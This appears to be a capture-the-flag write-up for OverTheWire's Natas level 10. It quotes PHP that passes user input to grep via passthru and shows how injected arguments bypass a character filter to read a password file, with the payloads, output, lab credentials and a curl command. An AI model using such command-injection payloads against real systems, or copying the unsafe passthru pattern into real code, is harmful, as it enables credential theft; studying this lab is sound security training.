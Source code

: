 Natas Level 9 → Level 10
========================

Username: natas10

URL:      http://natas10.natas.labs.overthewire.org


Solution
========

This level is similar to level 8-9 but this time the input is filtered. At least that's what the website complains:

```
For security reasons, we now filter on certain characters
```

As always we take a look into the website's source code:

```
Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Too bad. The code ```if(preg_match('/[;|&]/',$key))``` means that the command ```grep -i $key dictionary.txt```isn't executed if there's any of the characters ```;```, ```|``` or ```&``` inside of the web user's input (```$key```). Therefore we neither can inject any code execution like ```popel dictionary; ls #``` nor ```popel dictionary && ls #``` like we did in level 8-9.

According to the Manpage of ```grep```, it can be used to look for patterns in one file as well as multiple times at once:
```
man grep
```
> The grep utility searches any given input files, selecting lines that match one or more patterns.

> grep [-abcdDEFGHhIiJLlmnOopqRSsUVvwxZ] [-A num] [-B num] [-C[num]] [-e pattern] [-f file]
       [--binary-files=value] [--color[=when]] [--colour[=when]] [--context[=num]] [--label]
       [--line-buffered] [--null] [pattern] [file ...]

Therefore we don't necessarily have to comment out the initial occurence of 'dictionary.txt' in the command line ```grep -i $key dictionary.txt```. But since the character ```#``` is not filtered out, we don't have to worry about it. Just leave it in the string because it will save us some computation, waiting time and reduces the overall output of grep. 
More thoughts are required in order to find an appropriate search pattern because we can not concatenate several commands due to the fact that the characters ```;``` and ```&``` are filtered out. Unfortunately neither do we know which characters are included in next level's password nor can we exclude some. In [regular expressions](https://en.wikipedia.org/wiki/Regular_expression) the ```.``` (dot) represents any character. Using a single ```.``` could be the best choice for our search pattern because it means "*let grep print any line of a file regardless of what's inside of it*". This leads us to the following string which we want to enter in the web form in order to get the next level's password:

```
.  /etc/natas_webpass/natas11 #
```

The resulting command line code that gets executed when we submit the web form looks like this then:

```
passthru("grep -i . /etc/natas_webpass/natas11 # dictionary.txt");
```

This reads "*use grep to print every line of /etc/natas_webpass/natas11 and ignore the file dictionary.txt*". 
Consequently the resulting web site looks like this:

```
Output:

U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

Bingo! =)


Alternative strings
-------------------

```
.* /etc/natas_webpass/natas11 #
```
```
Output:

.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

```
```
.* /etc/natas_webpass/natas11 
```
```
Output:

.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
[...]
```
```
.  /etc/natas_webpass/natas11
```
```
Output:

/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
[...]
```

Note to myself
--------------

Instead of using a GUI web browser like Firefox one can use cURL instead:

```
curl --data "needle=. /etc/natas_webpass/natas11 #" http://natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl@natas9.natas.labs.overthewire.org/
```
